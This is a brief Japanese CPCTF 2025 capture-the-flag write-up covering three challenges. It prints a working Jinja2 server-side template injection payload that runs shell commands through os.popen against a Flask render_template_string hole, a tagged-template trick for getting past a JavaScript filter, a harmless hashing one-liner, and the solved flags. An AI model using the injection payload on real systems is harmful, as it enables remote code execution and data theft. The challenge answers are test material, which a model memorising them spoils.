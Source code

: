 

# CPCTF 2025 writeup

## Name Omikuji(web)

render_template_stringがありました。SSTIです。
```python=
 fortune = get_fortune(name)

    result = f"""
    {css}
    <h1>🔮 名前占い 🔮</h1>
    <div class="result">
        <p>こんにちは、{name}さん。</p>
        <p>あなたの運勢は…… <span class="fortune">{fortune}</span> です！</p>
    """

    if fortune == "大吉":
        with open("flag.txt", "r") as f:
            content = f.read()
            result += f'<div class="flag">フラグは{content}です。</div>'

    result += "</div>"
    return render_template_string(result)
```
`render_template_string`というのがimportされていた。
SSTIが使えそう
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

```
CPCTF{sst1_is_d3ngerou2}
```


## String Calculator(web)
```javascript=
const getFlag = () => process.env.FLAG ?? "";

...省略...

app.get("/api/flag", require("hono/bearer-auth").bearerAuth({ token: btoa(getFlag()) }), (c) => {
  return c.text(getFlag());
});

```
`server.js`の`getFlag`を実行できればFLAGが出そう。
`getFlag()`と実行したいが、`()`がブロックされてるらしい。

`getFlag`` `で実行できるらしい。

```
CPCTF{JavaScr!pt_!s_4n_4wes0me_1anguage}
```

## XFD(shell)
A~XFDを出力してSHA-256する。

```shell=
echo {A..Z} {A..Z}{A..Z} {A..W}{A..Z}{A..Z} X{A..E}{A..Z} XF{A..D} | tr ' ' '\n' | shasum -a 256
```
`tr ' ' '\n'` は` `を`\n`に置き換える

```
CPCTF{6526814a735caafefa75d482c954e11d49c110f5dc73dce2f951d6b11339c05b} 
```
